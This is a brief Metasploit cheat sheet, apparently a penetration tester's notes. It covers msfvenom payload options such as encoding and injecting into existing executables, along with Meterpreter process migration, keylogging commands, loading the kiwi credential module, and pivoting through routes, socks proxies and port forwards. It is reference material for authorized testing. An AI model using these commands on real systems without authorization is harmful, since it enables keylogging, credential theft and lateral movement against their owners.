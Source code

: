 # Metasploit

## Init

```
sudo systemctl start postgresql
sudo msfdb init
```

## Search

```
search type:auxiliary name:smb
```

## Msfvenom

* `-p`: payload to use
* `LHOST=<IP>`
* `LPORT=<port>`
* `-f`: output file format (exe, msi, hta, ...)
  * `msfvenom -l formats` to see available formats
* `-o`: output file name
* `-e`: encoder type (ex: x86/shikata\_ga\_nai)
* `-i`: encoding iterations
* `-x`: inject into existing PE file

{% hint style="info" %}
Msfvenom can be called from within msfconsole using the command `generate`
{% endhint %}

## Meterpreter

### AutoRunScript

When using an exploit, directly migrate into another process.

```
set AutoRunScript post/windows/manage/migrate
```

### Transport

Change communication channel with Meterpreter.

```
transport list
transport add -t <type> -l <ip> -p <port>
transport next
```

{% hint style="info" %}
Don't forget to setup a multi handler of the correct type.
{% endhint %}

### Post-Exploitation Features

```
screenshot

keyscan_start
keyscan_dump
keyscan_stop

ps
migrate <PID>

load powershell
load kiwi

route add <subnet> <session_id>

use multi/manage/autoroute
use auxiliary/server/socks_proxy

portfwd -l <port> -p <port> -r <target_host>
```

### Incognito

* [https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

